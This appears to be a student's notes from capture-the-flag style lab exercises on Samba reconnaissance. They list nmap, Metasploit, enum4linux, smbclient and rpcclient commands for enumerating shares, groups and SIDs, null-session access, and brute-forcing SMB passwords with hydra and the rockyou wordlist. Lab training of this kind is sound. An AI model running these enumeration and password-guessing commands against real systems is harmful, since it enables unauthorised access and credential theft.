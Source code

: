 

### Samba Recon: Basics III
	get all available shares with nmap scripts
		nmap -p445 --script smb-enum-shares ip 
	get all available shares with smb_enumshares metasploit
		msfconsole
		use auxiliary/scanner/smb/smb_enumshares
		set RHOSTS ip
		exploit
	List all available on samba server using enum4linux
		enum4linux -S ip
	List all available shares on samba using smbclient
		smbclient -L ip -N
	find domain groups that exists on samba server with enum4linux
		enum4linux -G ip
	find domain groups that exists on samba server with rpcclient
		rpcclient -U "" -N ip
		enumdomgroups
	how many directories are present inside share public
		smbclient //ip/public -N
		ls
		cd secret
		get flag
		exit
		cat flag

### Samba Recon: Dictionary Attack

what is the password of user jane required to access share jane
	- msfconsole
	- use auxiliary/scanner/smb/smb_login
	- set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
	- set SMBUser jane
	- set RHOSTS ip
	- exploit
what is the password of user admin to access share admin using hydra with password wordlists 
	- gzip -d /usr/share/wordlists/rockyou.txt.gz
	- hydra -l admin -P /usr/share/wordlists/rockyou.txt ip smb
which share is read only use smbmap with credentials 
	- smbmap -H ip -u admin -p password1
u could browse jane shares
	- smbclient -L ip -U jane
get the flag from share admin
	- smbclient //ip/admin -U admin
	- ls 
	- cd hidden
	- ls
	- get flag.tar.gz
	- exit
	- tar -xf flag.tar.gz
	- cat flag
u can list the pipes available on smb server using msfconsole
	- msfconsole
	- use auxiliary/scanner/smb/pipe_auditor
	- set SMBUser admin
	- set SMBPass password1
	- set RHOSTS ip
	- exploit
list sid of unix users 
	- enum4linux -r -u "admin" -p "password1" ip
